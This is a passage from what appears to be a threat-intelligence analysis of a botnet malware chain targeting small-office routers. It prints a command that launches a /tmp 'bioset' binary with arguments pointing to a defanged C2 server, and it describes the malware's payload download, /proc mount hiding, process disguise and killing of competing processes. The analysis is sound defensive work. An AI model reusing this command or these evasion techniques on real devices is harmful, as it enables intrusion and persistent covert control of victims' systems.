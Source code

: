 Next, the bash script downloads and installs the “cli_download_{architecture}” file. This script writes the file to the /tmp directory and renames it “bioset{#}.” It does this by altering the permissions on the downloaded file and executing it. The bash script then passes a URL argument, with the first component depending on the host machine architecture and the second component remaining consistent (with a variable C2 server): 
/tmp/bioset3 “155.138.146[.]162:5555/mips/a -c 155.138.146[.]162:9999” & 
Based upon our analysis of the binary, the “cli_download” file code also performs some host-based enumeration. The actor obtains the IP address of the machine and checks the host’s file and the CPU utilization. One interesting piece of tradecraft shown here is that the script downloads and executes the subsequent programs as shown in Figure 1. The downloaded executable (“a.elf”) contains parameters to mount and bind itself to the /proc/ file path. The mount bind process allows a developer to take an existing directory tree and replicate it under a different file path. Because the directories and files in the mount bind are the same as the original, any modification on one side is immediately reflected on the other side. Once the executable is bound to /proc, it deletes the files from the /tmp directory. This is a way of hindering recovery of the malicious files from the infected file systems, while keeping the toolset in memory.   
We assess that the purpose of the “cli_download” file is to create a running process and then to inject the next 64-bit elf payload into memory. Once downloaded, the ultimate payload – the “a.elf” file as shown in Figure 1 – includes functionality to spawn a connection back to the threat actor infrastructure, with the ability to upload/download files, run commands, and execute additional modules. 
 
Primary Payload Analysis 
The primary payload has four major components: 

Host-based evasion
Setting up a tunneling function 
Interactions with the C2 node 
Pre-defined commands 

 
Host-Based Evasion 
Once the payload is executed on the infected system it gathers a list of filenames from the following locations, until it has greater than 256 separate files: 
-/usr/sbin/ 
-/usr/bin/ 
-/sbin/ 
-/pfrm2.0/bin/ 
-/usr/local/sbin/ 
 
Once it creates this list, it selects one file at random and attempts to disguise itself within the system. It will change the process filename to “pr_set_mm_exe_file” and the process name to “pr_set_name.” The binary also seeks to set up and manage events by employing libevent, which provides a mechanism to execute a callback function when a specific event occurs. The first area of focus is on monitoring the following active processes: busybox, wget, curl, tftp, telnetd, or lua. If any running processes have any of those strings in their path, the binary will look for the string “bioset” in that path. If bioset is not found, it will kill the process. There is an additional check for busybox, it compares the command line length of the busybox process with the infected process and kills the busybox process if the command line lengths differ. 
As we discussed above, we observed the KV actor infecting the same types of devices as other botnets such as mips_ff. Therefore, we assess that these actions – namely the killing of active processes without the bioset string – were taken to prevent new malware infections from taking hold on the impacted system. Secondly, we assess that the malware chooses to run as a random file name that already exists on the system to prevent system administrators, or other botnets, from identifying the process and ceasing execution on the SOHO devices.  
 